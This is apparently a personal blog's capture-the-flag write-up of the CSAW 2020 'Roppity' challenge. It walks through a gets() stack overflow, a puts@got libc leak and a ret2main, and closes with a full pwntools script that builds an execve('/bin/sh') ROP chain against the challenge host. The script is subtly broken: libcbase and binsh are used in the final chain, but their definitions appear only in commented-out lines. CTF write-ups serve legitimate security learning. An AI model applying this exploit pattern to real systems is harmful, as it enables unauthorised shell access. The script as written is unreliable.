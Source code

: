 ```yaml
---
title: Roppity
date: "2020-09-16 22:04:31.582772"
description: "First ROP challenge from CSAW ctf 2020"
categories: ["code"]
---
```


Here's the simple ROP challenge from the CSAW 2020 qualifiers.

### The Challenge

_Welcome to pwn!_

```shell
nc pwn.chal.csaw.io 5016
```

Along with 2 files, Rop, the binary, and libc-2.27.so

### Running this random binary...

To start off, when we enter some input we find that the program readily segfaults.

![Segfaults easily lol](../../assets/segfaulted.png)

### Buffer calculations

Then using a disassembler (here I am using binaryninja, but you can use any one you like), we find out that we're inputting into a buffer of size `0x20` using the `gets()` call.  
Since `rbp` is first to be pushed onto the stack, and the buffer size being offset from `rbp`, the total padding required is:

0x20 + 8 bytes for rbp = **40 bytes**

### Leaking a libc address

Since there is no win function, next thing we need is a way to pop the shell. There don't seem to be enough rop gadgets to pop a shell, and with the NX functionality enabled, it doesn't seem like we can use any shellcode.

![PIE disabled, NX enabled](../../assets/checksec.png)

In that case, the only thing to do is leak a libc address using the classic `puts(puts)` idea. We print out the address of puts in the GOT which should contain the address of puts in libc, by jumping to `puts@plt`.  
**Note:** We don't need to leak a code address since there is no PIE

### Rop chain generation

Once we have the leak, since we know the libc version, the next problem is to run the gets call again, so that we can send in the the rop chain we generate from the libc.
To do this, we jump back to the main function, get it to repair the currently destroyed stack, and then enter in our ropchain.

### Tl;dr, gimme the code

The whole script is as follows.

```python
#!/usr/bin/env python3

from pwn import *

PROGNAME = "./rop"
REMOTEIP = "pwn.chal.csaw.io"
REMOTEPORT = "5016"

if args.REMOTE:
        p = remote(REMOTEIP, REMOTEPORT)
        elf = ELF(PROGNAME)
        libcelf = ELF('./libc-2.27.so')
else:
        p = process(PROGNAME)
        elf = p.elf
        libcelf = ELF('<system libc path>')
        gdb.attach(p)

# Requires 40 bytes of padding
padding = b'a' * 40

# puts address in the binary
# puts@plt
puts = 0x004004a0

# puts@got
putsGot = 0x601018

# pop rdi gadget for all the rop
popRdi = 0x0000000000400683

# Return to the main function to repair the
# destroyed stack
main = 0x004005dc

# run puts@plt with puts@got in rdi to leak a libc address
p.sendline(padding + p64(popRdi) + p64(putsGot) + p64(puts) + p64(main))

# stripping the newline
leak = p.readline()[:-1]

# the leak is only 6 bytes, with address being of the form: 0x0000<address>
libc = u64(leak + b'\x00' * 2)

# sadly the system('/bin/sh') doesn't work, possibly has been disabled
# libcbase = libc - libcelf.symbols['puts']
# libcsys = libcbase + libcelf.symbols['system']
# binsh = libcbase + next(libcelf.search(b'/bin/sh'))
# systemPayload = padding + p64(popRdi) + p64(binsh) + p64(libcsys)

# The rop chain magic
syscall = p64(libcbase + 0x00000000000d29d5)
popRsi = p64(libcbase + 0x0000000000023e8a) + p64(0)
popRdx = p64(libcbase + 0x0000000000001b96) + p64(0)
popRax = p64(libcbase + 0x0000000000043a78) + p64(59)
setBinsh = p64(popRdi) + p64(binsh)

# execve syscall
# rax: 59
# rdi: pointer to '/bin/sh\x00'
# rsi: 0
# rdx: 0
p.sendline(padding + popRsi + popRdx + popRax + setBinsh + syscall)
```
